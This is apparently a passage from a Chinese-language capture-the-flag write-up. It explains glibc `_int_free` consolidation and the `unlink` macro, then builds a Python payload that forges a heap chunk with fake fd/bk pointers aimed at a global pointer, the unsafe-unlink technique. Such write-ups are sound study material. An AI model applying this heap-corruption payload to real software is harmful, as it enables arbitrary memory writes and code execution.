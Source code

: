 因為我們只能從 `0x603010` 開始寫入，因此我們需要把 `0x603010` 當作 chunk 的開頭，先來看一下 `_int_free` 的實作，以下只列出幾個重點：

他會先利用 size 找到 nextchunk

~~~c
nextchunk = chunk_at_offset(p, size);
~~~

後面會從 nextchunk 檢查 previous inuse bit，也會拿 nextchunksize：

~~~c
if (__glibc_unlikely (!prev_inuse(nextchunk)))
{
	errstr = "double free or corruption (!prev)";
	goto errout;
}

nextsize = chunksize(nextchunk);
~~~

接下來會先進行 consolidate，而 consolidate 有 forward & backward，
他會先進行 backward，這裡的 backward 是會往高尋找(也就是 address 較小的地方)：

~~~c
/* consolidate backward */
if (!prev_inuse(p)) {
	prevsize = p->prev_size;
	size += prevsize;
	p = chunk_at_offset(p, -((long) prevsize));
	unlink(av, p, bck, fwd);
}
~~~

之後會先檢查 nextchunk 是不是 top chunk，如果不是則會進行 consolidate forward：

~~~c
if (nextchunk != av->top)
~~~

Unlink 的實作：

~~~c
#define unlink(P, BK, FD){
	FD = p->fd;
	BK = p->bk;
	FD->bk = BK;
	BK->fd = FD;
}
~~~

接著來看看 payload：

~~~python
fake_fd = 0x6020a8 - 0x18
fake_bk = 0x6020a8 - 0x10

payload = ""
payload += p64(0x0) # 0x603010 的 previous size 不是很重要給個 0
payload += p64(0x21) # 0x603010 的 size 
payload += p64(fake_fd) # fake 0x603010 的 fd
payload += p64(fake_bk) # fake 0x603010 的 bk

# 這裡已經到了 0x603040 也就是 big secret 的 chunk
payload += p64(0x20) # fake previous size 讓她往回找 previous chunk 可以找到 0x603010
payload += p64(0xfb0) # big secret chunk size 
~~~
